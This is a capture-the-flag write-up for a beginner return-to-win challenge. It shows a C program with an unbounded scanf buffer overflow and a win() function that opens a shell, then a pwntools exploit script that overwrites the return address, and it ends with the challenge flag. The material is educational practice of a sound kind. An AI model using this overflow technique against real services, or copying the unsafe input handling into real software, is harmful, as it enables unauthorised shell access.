

## Description

Ever heard what ROP is?

## Writeup

We were given 2 file, chall.c the source code, chall the binary executable and one remote connection to send out payload.

**Note:  This challenge requires a verry little previous knowledge on binary explotation**

Refer :- http://wiki.bi0s.in/pwning/roadmap/ to get familier with the basics.

Checking the source, chall.c:

```C
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

void win(){
    puts("You sure did win");
    system("/bin/sh");
}

int main(){
    char buf[0x20];

    puts("Do whatever you want --__--");
    scanf("%s",buf);

    return 0;

}
```

Before procesing with the exploitation, let's check the Binary security features.


We can see that, CANARY is disabled, so... we don't have to worry to buffer overflow check and PIE is disabled, which means the base address of the binary is always static, So really simple exploitation. We can see, there us a win() function and a clear buffer overflow with ``scanf("%s",buf)``, So All we have to do is overflow the buffer, overflow RSP with the address of win() and get the shell.



Looking at the dissembly of main() function, we can see that, Our buf is located at the position ``rbp-0x20``, We need 8 more bytes to fill up the rbp, So... a total of 0x28 bytes get to the rsp.
Then, we just overwrite `rsp` wit the address of "win()" and get the shell, below is the exploit script written to automate the process using pwntools.

```python
from pwn import *

p = process('./chall')
#p = remote('20.127.153.159', 6973)

e = ELF('./chall')
r = ROP('./chall')

win = e.symbols['win']

payload = b"A"*0x28 + p64(r.ret.address) + p64(win)

p.recvuntil("\n")
p.sendline(payload)

p.interactive()
```

**Note: address of ``ret`` instruction is added before ``win()`` because the stack has to be 16-byte aligned**

Running the exploit, will land us a shell:


## Flag

**HTB{v32y_51mp13_r3turn_101}**

## Author
Sai Shashank